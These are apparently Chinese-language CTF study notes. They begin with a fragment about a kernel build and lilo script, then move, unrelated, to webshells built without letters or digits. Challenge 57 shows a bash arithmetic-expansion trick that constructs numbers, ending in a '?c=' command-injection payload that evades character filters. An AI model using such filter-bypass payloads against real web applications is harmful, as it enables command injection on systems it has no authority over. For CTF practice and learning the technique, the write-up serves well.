 >
> cp System.map /boot &&
>
> vi /etc/lilo.conf &&
>
> lilo -v
>
> 文件建立好之后，每次编译核心的时候，只需要在/usr/src/linux-2.4.20下输入：
>
> source make_command
>
> 即可，如果你用的不是lilo来引导系统，可以把最后两行去掉，配置自己的引导程序来引导内核。
>
> 顺便补充一点，&&命令表示顺序执行由它连接的命令，但是只有它之前的命令成功执行完成了之后才可以继续执行它后面的命令。

## 无字母数字webshell之提高篇

https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html

https://blog.csdn.net/qq_46091464/article/details/108513145

**这道题主要是利用 上传文件到临时命令去通过`.(点)`去执行该上传文件的内容。**

# 57 \${\_} \$((\${_}))=0

https://blog.csdn.net/rawrecruit/article/details/123957994

```
${_} ="" //返回上一次命令
$((${_}))=0
$((~$((${_}))))=-1
```

```
$(())=0  $((~$(())))=1
利用linux的$(())构造出36

$(())=0

$((~ $(()) ))=-1

(())是用来整数运算的命令，内部可以放表达式，默认相加，通过$((~36)) 可得36取反为-37

 36可以通过外层为$(())包裹内层可以运算出36的表达式构造，36由-37取反得到，所以

$((~$((  ))))  内部加上37个$((~ $(()) )) 得到 -37
```

最终payload:

```
?c=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(()))) ))))
```
